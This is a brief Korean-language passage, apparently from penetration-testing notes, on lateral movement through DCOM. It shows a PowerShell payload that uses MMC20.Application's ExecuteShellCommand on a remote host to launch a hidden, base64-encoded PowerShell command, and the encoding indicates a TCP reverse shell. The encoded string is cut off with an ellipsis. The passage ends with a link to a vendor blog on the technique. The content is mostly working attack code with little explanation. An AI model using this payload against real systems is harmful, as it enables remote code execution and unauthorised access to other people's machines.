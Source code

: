 컴퓨터 간의 상호 작용을 위해 Distributed Component Object Model (DCOM) 으로 확장.

**리버스 쉘을 연결하는 DCOM 페이로드**

```powershell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73"))
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5A...
AC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")
```

DCOM Lateral Movement 기술 참조: [https://www.cybereason.com/blog/dcom-lateral-movement-techniques](https://www.cybereason.com/blog/dcom-lateral-movement-techniques)